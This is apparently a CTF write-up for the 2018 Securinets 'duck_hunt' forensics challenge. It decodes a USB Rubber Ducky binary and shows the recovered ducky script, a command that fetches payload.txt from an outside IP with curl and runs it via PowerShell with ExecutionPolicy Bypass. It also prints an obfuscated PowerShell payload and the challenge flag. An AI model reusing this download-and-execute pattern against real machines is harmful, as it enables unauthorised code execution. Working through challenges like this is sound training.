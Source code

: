 ```yaml
---
title: '[2018_Securinets_CTF] duck_hunt(300)'
categories:
  - CTF
  - 2018 Securinets CTF
tags: [Forensic, ducky]
date: 2018-03-26 14:13:11
thumbnail: /images/securinets.png
---
```



## Exercise

> Do you know someone who loves hunting ducks?
> Link: http://for.ctfsecurinets.com/8/unknown.bin

![](exercise.png)
<p align='center'>[그림] exercise</p>


## Solution

You can download a binary called "unknown.bin". After download the "unknown.bin", that is look like dummy binary.


you need to know "duck" in exercise. that is "ducky". ducky, which uses the mcu chip for usb and performs common operations, uses the result of the compilation "inject.bin".(more important : "https://hakshop.com/products/usb-rubber-ducky-deluxe")


below site, you can decode that binary. "https://ducktoolkit.com/decoder/"
![](decode.png)
<p align='center'>[그림] decode site</p>



After Binary file decode, you can see that original "ducky code".
![](decode_file.png)
<p align='center'>[그림] original ducky code</p>


This is ducky code. you can see "http://34.240.44.38/payload.txt" about "GET url".
```bash
DELAY
ADELAY
DELAY
DELAY
cd / & mkdir .haxor & cd .haxor & echo (curl -X GET  http://34.240.44.38/payload.txt) > file.PS1 & powershell -ExecutionPolicy ByPass -File file.ps1
DELAY

```

You can tell from the payload.txt that it is a powershell script, and seems to have a simple obfuscation. Nothing is a problem. This is "payload.txt" (powershell script)
```powershell
${;}=+$();
${=}=${;};
${+}=++${;};
${@}=++${;};
${.}=++${;};
${[}=++${;};
\n${]}=++${;};
${(}=++${;};
${)}=++${;};
${&}=++${;};
${|}=++${;};
${"}="["+"$(@{})"[${)}]+"$(@{})"["${+}${|}"]+"$(@{})"["${@}${=}"]+"$?"[${+}]+"]";
${;}="".("$(@{})"["${+}${[}"]+"$(@{})"["${+}${(}"]+"$(@{})"[${=}]+"$(@{})"[${[}]+"$?"[${+}]+"$(@{})"[${.}]);
${;}="$(@{})"["${+}${[}"]+"$(@{})"[${[}]
"${"}${.}${(}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${(}${+}+${"}${&}${@}+${"}${+}${=}${+}+${"}${|}${)}+${"}${+}${=}${=}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${[}${]}+${"}${&}${=}+${"}${+}${+}${[}+${"}${+}${+}${+}+${"}${+}${=}${|}+${"}${+}${+}${@}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${(}${|}+${"}${+}${+}${=}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${.}${@}+${"}${+}${+}${(}+${"}${+}${=}${[}+${"}${+}${=}${+}+${"}${.}${@}+${"}${+}${+}${@}+${"}${|}${)}+${"}${+}${+}${]}+${"}${+}${+}${]}+${"}${+}${+}${|}+${"}${+}${+}${+}+${"}${+}${+}${[}+${"}${+}${=}${=}+${"}${.}${|}+${"}${+}${.}+${"}${+}${=}+${"}${)}${.}+${"}${+}${=}${@}+${"}${[}${=}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${.}${@}+${"}${[}${]}+${"}${+}${=}${+}+${"}${+}${+}${.}+${"}${.}${@}+${"}${.}${|}+${"}${)}${=}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${+}${@}${.}+${"}${+}${=}${]}+${"}${+}${+}${]}+${"}${|}${]}+${"}${|}${)}+${"}${|}${]}+${"}${+}${+}${[}+${"}${+}${+}${)}+${"}${|}${&}+${"}${|}${&}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${|}${]}+${"}${+}${=}${=}+${"}${+}${+}${)}+${"}${|}${|}+${"}${+}${=}${)}+${"}${+}${@}${+}+${"}${|}${]}+${"}${+}${+}${)}+${"}${+}${+}${]}+${"}${+}${=}${+}+${"}${+}${=}${=}+${"}${|}${]}+${"}${+}${+}${]}+${"}${+}${+}${+}+${"}${+}${=}${|}+${"}${+}${=}${+}+${"}${+}${+}${|}+${"}${+}${=}${[}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${+}${=}${+}+${"}${.}${.}+${"}${+}${@}${]}+${"}${.}${|}+${"}${[}${+}+${"}${+}${@}${.}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${)}${+}+${"}${+}${+}${+}+${"}${+}${+}${+}+${"}${+}${=}${=}+${"}${.}${@}+${"}${)}${[}+${"}${+}${+}${+}+${"}${|}${&}+${"}${.}${.}+${"}${.}${|}+${"}${]}${|}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${[}+${"}${.}${(}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${.}${[}+${"}${+}${.}+${"}${+}${=}+${"}${+}${@}${]}"
```


Unpacking is simple. Just run it in powershell as it's written in payload.
![](run.png)
<p align='center'>[그림] powershell run</p>

If "[CHar]" type values are output, the user can get the input value and check the comparison code. Within that code we can get the flag.

![](type.png)
<p align='center'>[그림] result of run</p>

```bash
$flag = Read-Host-Prompt 'Enter the password'
If (flag -eq 'Flag{is_a_rubber_ducky_used_somewhere!}'
```
![](flag.png)
<p align='center'>[그림] flag</p>


<p align='right'><strong>Flag{is_a_rubber_ducky_used_somewhere!}</strong></p>
